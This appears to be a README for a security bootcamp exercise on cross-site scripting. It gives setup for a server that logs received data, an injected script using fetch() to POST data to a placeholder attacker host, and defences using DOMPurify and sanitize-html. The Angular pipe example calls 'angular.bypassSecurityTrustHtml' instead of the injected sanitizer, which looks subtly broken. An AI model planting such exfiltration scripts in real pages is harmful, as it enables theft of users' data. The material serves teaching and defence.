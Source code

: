 Example Server
==============

Here is an example server you can use...

The Receiving
-------------

```sh
git clone https://github.com/itenium-be/Bootcamp-Security-ExampleServer
cd Bootcamp-Security-ExampleServer
npm install
npm start
```

Endpoint: `http://_your_ip_:5000/grab-something`

### With Docker

```sh
cd Bootcamp-Security-ExampleServer
docker build -t example-server .
docker run -p 5000:5000 example-server
```


The Sending
-----------

Right now `server.js` will print anything you send as the request body.

Opening a HTML page with the following content would be interesting.

```html
<script>
fetch('http://_your_ip_:5000/grab-something', {
  method: 'POST',
  headers: { 'Content-Type': 'application/json' },
  body: JSON.stringify({payload: 'something interesting here'}),
});
</script>
```

Also see `ExampleServer.postman_collection.json` to run a local test.


The Protecting
--------------

Don't allow arbitrary HTML or use something like [DOMPurify](https://github.com/cure53/DOMPurify).
or [sanitize-html](https://github.com/apostrophecms/sanitize-html)  
Modern SPA frameworks need a workaround to "enable" XSS:


```ts
const data = '<b>bold</b>';

// React:
<div dangerouslySetInnerHTML={{__html: data}} />

// Angular Html:
<div [innerHtml]="content | safeHtml">

// Angular safeHtml Pipe
const sanitizedContent = DOMPurify.sanitize(data);
return angular.bypassSecurityTrustHtml(sanitizedContent);

// Vue:
<div v-html="data" />
```


Allow user-content but be (hopefully) safe from XSS:

```ts
import { Pipe, PipeTransform } from '@angular/core';
import { DomSanitizer } from '@angular/platform-browser';
import DOMPurify from 'dompurify';

@Pipe({
  name: 'safeHtml'
})
export class SafeHtmlPipe implements PipeTransform {
  constructor(protected sanitizer: DomSanitizer) {}
  transform(value: any, type: string): any {
    const sanitizedContent = DOMPurify.sanitize(value);
    return angular.bypassSecurityTrustHtml(sanitizedContent);
  }
}
```
